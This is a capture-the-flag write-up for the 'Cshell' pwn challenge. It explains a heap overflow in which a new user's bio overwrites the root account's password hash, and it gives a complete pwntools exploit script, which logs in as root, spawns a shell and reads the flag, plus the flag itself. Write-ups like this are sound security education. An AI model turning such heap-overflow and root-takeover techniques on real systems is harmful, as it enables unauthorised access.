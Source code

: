 # Cshell

## Challenge

interactive menu and login prompt

user can create an account with a bio, stored on the heap

there is a preexisting root account and other user accounts

2 old user accounts have been freed

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

specify a bio length such that the new user buf is allocated in the old `Eric_buff` region

`fgets` reads 201 bytes, which can now overwrite the `struct users *root` data

overwrite the hashed password with a known hash, the salt is the same between users

logout of the user account, login to the root account and spawn a shell

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn.be.ax --port 5001 Cshell
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('Cshell')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn.be.ax'
port = int(args.PORT or 5001)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendlineafter(b"Enter a username up to 8 characters long.", b"username")
io.sendlineafter(b"Create a password.", b"password")
io.sendlineafter(b"How many characters will your bio be (200 max)?", str(0x80).encode())

payload = flat({
    0x5188f3 - 0x518838: b"13tuGn7XXnAgQ",
    })

io.sendafter(b"Great, please type your bio.", payload)
io.sendlineafter(b"Choice > ", b"1")
io.sendlineafter(b"Username:", b"root")
io.sendlineafter(b"Password:", b"password")
io.sendlineafter(b"Choice > ", b"3")
io.sendline(b"cat flag.txt")

io.interactive()
```

## Flag

`corctf{tc4ch3_r3u5e_p1u5_0v3rfl0w_equ4l5_r007}`


